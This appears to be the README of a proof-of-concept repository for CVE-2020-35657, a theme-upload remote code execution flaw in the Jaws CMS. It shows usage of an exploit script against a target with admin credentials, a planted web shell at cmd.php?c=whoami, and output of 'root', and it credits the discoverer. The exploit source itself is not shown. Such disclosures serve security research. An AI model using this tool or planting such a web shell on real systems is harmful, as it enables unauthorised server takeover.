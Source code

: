 # jaws-rce-via-theme CVE-2020-35657


python jaws-rce2.py

[+]Usage python jaws-rce2.py http://victim.com/ admin admin

python jaws-rce2.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin


Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/themes/cmd.php?c=whoami

GIF89a

root

# Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/
